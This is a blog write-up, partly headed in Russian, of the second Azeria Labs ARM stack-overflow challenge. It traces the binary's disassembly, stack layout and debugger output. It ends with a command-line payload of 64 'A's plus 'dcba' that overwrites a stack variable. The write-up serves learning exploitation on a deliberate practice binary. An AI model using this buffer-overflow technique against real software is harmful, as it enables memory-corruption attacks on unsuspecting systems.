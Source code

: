 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part II"
---
```


This is going to be a fast moving post, directly to the details,
about exploiting the [second Arm challenge](https://github.com/azeria-labs/ARM-challenges)<!--more-->


## Распределение стека

```nasm
 ► 0x104b0 <main>       push   {fp, lr}
   0x104b4 <main+4>     add    fp, sp, #4
   0x104b8 <main+8>     sub    sp, sp, #0x50
   0x104bc <main+12>    str    r0, [fp, #-0x50]
   0x104c0 <main+16>    str    r1, [fp, #-0x54]
```

0x58 bytes are allocated where 0x54 bytes belong to the current stack
frame.

The first two words are allocated by `push` and the rest by `sub`.

```python
100:00> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

## Проверка аргументов

{% marginnote
'`errx` prints a message to the standard error output and then makes
the program exit.
<br />
See [man errx](https://linux.die.net/man/3/errx)
' %}

`argc` is expected to be 1 otherwise the program will **not** jump
and `errx` will be called.

```nasm
   0x104c4 <main+20>    ldr    r3, [fp, #-0x50]
   0x104c8 <main+24>    cmp    r3, #1
   0x104cc <main+28>    bne    #main+44 <main+44>

   0x104d0 <main+32>    mov    r0, #1
   0x104d4 <main+36>    ldr    r1, [pc, #0x5c]
   0x104d8 <main+40>    bl     #errx@plt <errx@plt>

 ► 0x104dc <main+44>    mov    r3, #0
```

{% marginnote
'As mentioned in a [previous post](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
when `pc` is used for indexing
the `pc` is the address of the current about-to-be-executed instruction
*plus* 8 bytes.
' %}

Let's see  `ldr r1, [pc, #0x5c]` which translates to 0x104d4 + 0x5c + 0x8:

```nasm
pwndbg> x/1wx 0x10538
0x10538 <main+136>:     0x000105bc

pwndbg> x/1bs 0x000105bc
0x105bc:        "please specify an argument\n"
```

## Переполнение буфера

A cookie is stored in the stack with a value of zero. Then `argv`
is loaded into `r3` or `&argv[0]` if you want.

The `add` instruction moves `argv` pointer 4 bytes forward. In other
words, `r3` *points* to `argv[1]`.

Finally the pointer is dereferenced and `r3` *has* the `argv[1]`
pointer.

```nasm
 ► 0x104dc <main+44>    mov    r3, #0
   0x104e0 <main+48>    str    r3, [fp, #-8]
   0x104e4 <main+52>    ldr    r3, [fp, #-0x54]
   0x104e8 <main+56>    add    r3, r3, #4
   0x104ec <main+60>    ldr    r3, [r3]
```

Like in the [previous challenge](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
begin of the buffer for `strcpy`
is 4 bytes below the pushed arguments and has a size of 64 bytes
(0x48 bytes minus 4 bytes for the pushed `fp` and 4 bytes for the
cookie)

```nasm
   0x104f0 <main+64>    sub    r2, fp, #0x48
```

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

Finally the call to `strcpy` is made:

```nasm
   0x104f4 <main+68>    mov    r0, r2
   0x104f8 <main+72>    mov    r1, r3
   0x104fc <main+76>    bl     #strcpy@plt <strcpy@plt>
```

## Сравнение

```nasm
 ► 0x10500 <main+80>     ldr    r3, [fp, #-8]
   0x10504 <main+84>     ldr    r2, [pc, #0x30]
   0x10508 <main+88>     cmp    r3, r2
   0x1050c <main+92>     bne    #main+108 <main+108>
```

The cookie is loaded from the stack and compared with the value
stored in the code segment at 0x10504 + 0x30 + 0x8:

```nasm
pwndbg> x/1wx 0x1053c
0x1053c <main+140>:     0x61626364
```

The good old `'abcd'` or `'dcba'` to be more precise due the endianess
of the machine.

A byte by byte inspection may make this more explicit:

```nasm
pwndbg> x/4bx 0x1053c
0x1053c <main+140>:     0x64    0x63    0x62    0x61
```


## Наша цель (branch at 0x1050c **not** taken):

```nasm
pwndbg> pdisass 0x10510
 ► 0x10510 <main+96>     ldr    r0, [pc, #0x28]
   0x10514 <main+100>    bl     #puts@plt <puts@plt>

   0x10518 <main+104>    b      #main+124 <main+124>

pwndbg> x/1wx 0x10540
0x10540 <main+144>:     0x000105d8

pwndbg> x/1bs 0x000105d8
0x105d8:        "you have correctly got the variable to the right value"
```

## Неудача (branch at 0x1050c **is** taken):

```nasm
pwndbg> pdisass &main+108 10
 ► 0x1051c <main+108>    ldr    r3, [fp, #-8]
   0x10520 <main+112>    ldr    r0, [pc, #0x1c]
   0x10524 <main+116>    mov    r1, r3
   0x10528 <main+120>    bl     #printf@plt <printf@plt>

pwndbg> x/1wx 0x10544
0x10544 <main+148>:     0x00010610

pwndbg> x/1bs 0x00010610
0x10610:        "Try again, you got 0x%08x\n"
```

## Эпилог

We reach here regardless of which path the branch at 0x1050c jumped to:

```nasm
pwndbg> pdisass &main+124
 ► 0x1052c <main+124>    mov    r0, r3
   0x10530 <main+128>    sub    sp, fp, #4
   0x10534 <main+132>    pop    {fp, pc}
```

## Атака

```shell
pi@raspberrypi:~$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```
